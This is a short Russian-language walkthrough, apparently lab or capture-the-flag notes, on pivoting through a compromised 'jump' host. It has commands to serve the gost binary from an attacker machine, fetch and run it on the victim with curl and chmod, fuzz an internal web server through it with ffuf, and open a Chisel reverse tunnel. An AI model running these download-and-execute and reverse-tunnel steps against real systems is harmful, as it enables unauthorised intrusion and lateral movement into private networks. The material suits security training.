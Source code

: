## gost 
Вы получили доступ к системе ОС Linux, и ваша задача — **изучить отдельные сервисы внутренней сети** или **получить к ней доступ со своей рабочей машины.** 

> **Конкретнее:**
> 
> - Вы получили доступ на машину: `jump`
> - Ваша задача — получить удобный доступ к сервису: `target:80`

**Ход действий**
IP-адрес принадлежит локальной сети, попробуем найти в ней другие хосты, скрытые в локальной сети:

`> curl 172.22.0.2`
Наша задача – **найти файл на web-сервере, который скрыт в локальной сети,** используем для этого утилиту ffuf, но для этого необходимо стабильное соединение с целевым сервером через промежуточный хост.

_Используем прокси из проекта Go simple tunnel:_ [https://github.com/ginuerzh/gost](https://github.com/ginuerzh/gost)

1. Скачиваем бинарный файл из релизов, выбираем сборку для Linux с amd64, например:

[.../releases/download/v2.11.5/gost-linux-amd64-2.11.5.gz](https://github.com/ginuerzh/gost/releases/download/v2.11.5/gost-linux-amd64-2.11.5.gz)

Подготовим веб-сервер для передачи этого файла на атакующей машине:

|   |
|---|
|`$ mkdir http; cd http`<br><br>`$ wget https://github.com/ginuerzh/gost/releases/download/v2.11.5/gost-linux-amd64-2.11.5.gz`<br><br>`$ gunzip gost-linux-amd64-2.11.5.gz # распаковка архива с бинарником`<br><br>`$ mv gost-linux-amd64-2.11.5 gost`<br><br>`$ python3 -m http.server 3000`|

2. Определяем наш IP-адрес:
`$ ip a`
3. На уязвимой машине выполняем скачивание файла:

	`> curl <you server>/gost --output gost #` `<you server>` нужно заменить на адрес вашего сетевого интерфейса
	
	`> chmod +x gost #` выдача прав на исполнение
	
	Запускаем gost в режиме прокси:
	
	`> ./gost -L=:<needed port>`
	
4. Настроим утилиту ffuf для использования прокси для обнаружения файлов на удаленном не взломанном веб-сервере 172.22.0.2 в локальной сети используя словарь fuzz.txt ([https://github.com/empty-jack/YAWR/blob/master/Web/files_and_directories/fuzz.txt](https://github.com/empty-jack/YAWR/blob/master/Web/files_and_directories/fuzz.txt)):

	```
	http_proxy=<my IP>:<needed port> ffuf -w dir.txt -u http://172.22.0.2/FUZZ -fc 403`
	```
## Chisel
https://github.com/jpillora/chisel/releases/tag/v1.9.1
На своей машине:
``` 
./chisel server -p <local_port> --reverse
```
На целевой жертве:
``` 
./chisel client <local_host>:<local_port> R:<конечный R_PORT>:<конечный R_HOST>:<конечный R_PORT>
```
